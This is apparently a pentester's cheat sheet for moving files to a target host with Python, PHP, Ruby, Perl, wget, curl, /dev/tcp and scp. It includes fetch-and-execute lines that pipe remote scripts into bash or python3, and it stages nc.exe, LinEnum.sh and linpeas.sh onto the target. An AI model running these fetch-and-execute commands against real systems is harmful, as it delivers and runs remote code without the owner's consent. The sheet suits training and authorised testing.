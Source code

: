 ```yaml
---
legal-banner: true
---
```


### **Setting Up an HTTP Server and Downloading a File Using Python 2**

1.  Start a http server:  
    `python -m SimpleHTTPServer 8000`
2.  Download file using python:  
    `python2 -c 'import urllib;urllib.urlretrieve ("http://[IP-ADRESS]:8000/file.txt", "file.txt")'`
3.  Download file using wget:  
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl:  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **Setting Up an HTTP Server and Downloading a File Using Python 3**

1.  Start a http server:  
    `python3 -m http.server 8000`
2.  Download file using python:  
    `python3 -c 'import urllib.request;urllib.request.urlretrieve("http://[IP-ADRESS:8000]/file.txt", "file.txt")'`
3.  Download file using wget  
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **Setting Up an Apache Server and Downloading a File**

1.  Put files into the apache web directory:  
    `cp nc.exe /var/www/html`
2.  Start the apache server  
    `sudo systemctl start apache2`
3.  Download file using wget   
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl   
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **Setting Up an HTTP Server and Downloading Files Using PHP**

1.  Start a http server:    
    `php -S 0.0.0.0:8000`
2.  Download a file using file_get_contents and file_put_contents:   
    `php -r '$file = file_get_contents("http://[IP-ADRESS]:8000/file.txt"); file_put_contents("file.txt",$file);'`
3.  Download a file using fopen:   
    `php -r 'const BUFFER = 1024; $fremote = fopen("http://[IP-ADRESS]:8000/file.txt", "rb"); $flocal = fopen("file.txt", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`
4.  Download and pipe to bash:    
    `php -r '$lines = @file("http://[IP-ADRESS]:8000/file.txt"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`
5.  Download file using wget :
    
    `wget http://[IP-ADRESS]:8000/file.txt`
6.  Download file using curl :  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **Setting Up an HTTP Server and Downloading Files Using Ruby**

1.  Start an HTTP server:  
    `ruby -run -e httpd . -p 8000`
2.  Download file using Ruby:  
    `ruby -e 'require "net/http"; File.write("file.txt", Net::HTTP.get(URI.parse("http://[IP-ADDRESS]:8000")))'`
3.  Download file using wget:  
    `wget http://[IP-ADDRESS]:8000/file.txt`
4.  Download file using curl:  
    `curl -O https://[IP-ADDRESS]:8000/file.txt`


### **Fileless Downloads**

1.  Curl to bash: Download and execute script without saving.  
    `curl http://[IP-ADDRESS]:8000/script.sh | bash`
2.  Wget to Python: Download Python script and execute without saving.  
    `wget -qO- http://[IP-ADDRESS]:8000/script.py | python3`
3.  Download file using Perl:  
    `perl -e 'use LWP::Simple; getstore("http://[IP-ADDRESS]:8000/file.txt", "file.txt");'`

### **Bash (/dev/tcp) Downloads**

1.  Connect to the target webserver:  
    `exec 3<>/dev/tcp/[IP-ADDRESS]/80`
2.  Send HTTP GET request:  
    `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
3.  Print the response:  
    `cat <&3`


### **Base64 Encoding and Decoding**

1.  Encode file to Base64:  
    `cat file | base64 -w 0; echo`
2.  Decode Base64 to file:  
    `echo -n 'BASE64-STRING' | base64 -d > output_file`


### **SSH and SCP Operations**

1.  `scp -P 6498 linpeas.sh [USERNAME]@[IP-ADRESS]:/tmp`